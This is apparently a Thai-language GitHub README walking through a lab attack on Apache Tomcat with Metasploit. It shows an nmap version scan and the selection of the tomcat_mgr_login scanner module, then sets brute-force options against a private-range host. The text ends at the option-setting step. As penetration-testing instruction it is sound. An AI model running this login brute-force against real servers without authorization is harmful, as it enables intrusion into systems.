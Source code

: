 # Attacking-Apache-Tomcat-with-Metasploit

### Metasploit Framework 

> ซึ่งเป็นเครื่องมือที่ใช้สำหรับการทดสอบเจาะระบบ (penetration testing) และการประเมินความปลอดภัยของระบบเครือข่ายและแอปพลิเคชัน

```
msfconsole
```

![msfconsole](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/84f6410d-5ee7-47e9-a7ec-54f8332e15a7)

### Nmap Service Version Detection

> Nmap มี Option ที่ใช้ตรวจสอบและคาดเดา service และเวอร์ชั่นของ service นั้นก็คือ -sV ตามด้วย IP หรือ Host ที่เราต้องการ

```
nmap -sV 192.168.19.175
```

![nmap -sV](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/6f8c730d-a227-44d5-abbf-433092e433af)

### search

> คำสั่ง search ใน Metasploit Framework ช่วยค้นหาโมดูลที่เกี่ยวข้องกับคำสำคัญที่คุณป้อนไป

```
search tomcat
```

![search](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/ecce85cc-adb6-4131-a129-778651be0599)

### use

>use ใน Metasploit Framework ช่วยให้ผู้ใช้สามารถเลือกและใช้โมดูลที่ต้องการในการทดสอบเจาะระบบได้

```
use auxiliary/scanner/http/tomcat_mgr_login 
```

![use](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/32920552-4e06-4e91-b3e0-95fccecb9e99)

### show options

>คำสั่ง show options เมื่อใช้ Metasploit Framework ใช้เพื่อแสดงตัวเลือกและพารามิเตอร์ที่สามารถตั้งค่าสำหรับโมดูลที่เลือก ช่วยให้รู้ว่าต้องกำหนดค่าอะไรบ้างก่อนที่จะรันโมดูลนั้น

```
show options
```

![show op1](https://github.com/Atiwitch15101/Tomcat/assets/159407312/f10b8150-1873-449a-937e-97a1fe381181)

### set

>คำสั่ง set เมื่อใช้ Metasploit Framework ใช้เพื่อกำหนดค่าพารามิเตอร์สำหรับโมดูลที่เลือก

> [!NOTE]
>`BRUTEFORCE_SPEED` ตั้งความเร็วในการ brute force (1-5, ค่า 5 เร็วสุด)

`RHOSTS` ระบุเป้าหมายหรือกลุ่มเป้าหมาย (เช่น IP หรือช่วง IP)

`STOP_ON_SUCCESS` หยุดการโจมตีเมื่อประสบความสำเร็จ (true/false)

`RPORT` ระบุพอร์ตของเป้าหมาย (เช่น 80 สำหรับ HTTP)

```
set BRUTEFORCE_SPEED 8
```

```
set BRUTEFORCE_SPEED 5
```

```
set RHOSTS 192.168.19.175
```

```
set STOP_ON_SUCCESS true
```

```
set RPORT 8180
```
![set](https://github.com/Atiwitch15101/Tomcat/assets/159407312/0c6d6159-8413-4831-9be7-5ee49929a4a4)



